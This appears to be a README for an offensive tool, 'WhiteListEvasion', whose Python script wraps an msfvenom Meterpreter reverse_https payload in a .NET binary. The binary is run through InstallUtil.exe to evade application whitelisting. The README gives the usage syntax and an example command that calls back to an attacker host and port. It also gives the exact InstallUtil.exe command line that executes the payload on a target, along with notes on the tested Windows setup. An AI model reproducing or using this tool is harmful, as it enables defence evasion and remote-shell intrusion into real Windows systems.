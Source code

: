 # WhiteListEvasion

1. InstallUtil.py

   Usage:
   python InstallUtil.py [--cs_file cs_filename] [--exe_name exe_filename] [--payload payload] [--lhost lhost] [--lport lport]

   python InstallUtil.py --cs_file temp.cs --exe_name temp.exe --payload windows/meterpreter/reverse_https --lhost 192.168.1.11 --lport 443

   Script that generates a .NET binary that attempts to leverage the InstallUtil.exe whitelist evasion technique.  this is accomplished by importing a msfvenom generated payload into the c_sharp template found here: http://www.room362.com/blog/2014/01/16/application-whitelist-bypass-using-ieexec-dot-exe/  . This template is then incorporated into the InstallUtil PoC found here: https://github.com/subTee/ShmooCon-2015/blob/master/CaseySmith-SimpleWindowsApplicationWhitelistingEvasion .  One thing of note:  The payload architecture must match the Framework subdir in the .NET path or the binary wil crash.

  Script.cs and script.exe are example output from InstallUtil.py.  To execute the execute, simply get the binary on disk and then run (something much like):
  C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U script.exe

  Requires mono, mono-develop, Python 2.7+, msfvenom (from metasploit). Tested and verified the script on a Kali linux VM.  Both 32-bit and 64-bit binaries tested and verified on Windows 7 with .NET 4.5.    

khr0x40sh@gmail.com 
